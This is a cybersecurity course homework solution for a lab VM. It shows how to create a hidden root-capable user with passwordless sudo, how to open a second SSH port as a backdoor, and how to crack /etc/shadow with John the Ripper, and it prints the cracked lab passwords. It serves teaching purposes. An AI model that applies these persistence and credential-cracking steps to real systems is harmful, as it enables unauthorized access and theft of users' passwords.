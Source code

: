 ## Week 6 Homework Solution: Advanced Bash - Owning the System

### Lab Setup

1. Log into the VM as `root` on the attacker machine:

    - Run `vagrant up` to stand up your lab environment.

    - Within the attacker machine, log in with the credentials:

        - Username: `sysadmin`
        - Password: `cybersecurity`

2. Using the attacker machine, remote into the target machine:

    - `ssh sysadmin@192.168.6.105 -p 22` and enter `passw0rd` when prompted.

3. After logging in as `sysadmin` on the target machine, run `sudo -s` to escalate your user to `root`. Enter `passw0rd` when prompted.

You will not need the above steps as part of your submission file.

---
### Step 1: Shadow People
1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo useradd sysd`

2. Give your secret user a password:
    - `sudo passwd sysd`

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 400 sysd`
 
4. Give your secret user the same GID:
    - `sudo groupmod -g 400 sysd`

5. Give your secret user full `sudo` access without the need for a password:
    - `sudo visudo`

    - Add the line: `sysd ALL=(ALL:ALL) NOPASSWD:ALL` under the `root` entry:

    ```bash
    # User privilege specification
    root    ALL=(ALL:ALL) ALL
    sysd    ALL=(ALL:ALL) NOPASSWD:ALL
    # Members of the admin group may gain root privileges
    %admin ALL=(ALL) ALL
    ```

- Swap to your `sysd` user and enter the password you set.

    - `su sysd`

6. Test that `sudo` access works without your password:

    - `sudo -l` will show the following output:

    ```bash
    Matching Defaults entries for sysd on scavenger-hunt:
        env_reset, exempt_group=sudo, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User sysd may run the following commands on scavenger-hunt:
        (ALL : ALL) NOPASSWD: ALL
    ```

### Step 2: Smooth Sailing

1. Edit the `sshd_config` file:

    - Run `sudo nano /etc/ssh/sshd_config` and add the following line in the configuration file:

    ```bash
    # Add an extra port line:
    Port 22
    Port 2222
    ``` 

### Step 3: Testing Your Configuration Update
1. Restart the SSH service:
    - `service ssh restart` or
    - `systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

### Step 4: Crack All the Passwords

1. SSH back to the system using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo su`

    - `john /etc/shadow`

 Wait approximately 5-10 minutes for John to crack all the passwords.

 - This partly depends on what password you set for your `sysd` user.

    ```bash
    # john /etc/shadow
    Created directory: /root/.john
    Loaded 7 password hashes with 7 different salts (crypt, generic crypt(3) [?/64])
    Press 'q' or Ctrl-C to abort, almost any other key for status
    computer         (stallman)
    freedom          (babbage)
    trustno1         (mitnik)
    dragon           (lovelace)
    lakers           (turing)
    passw0rd         (sysadmin)
    Goodluck!        (student)
    ```
--- 
© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
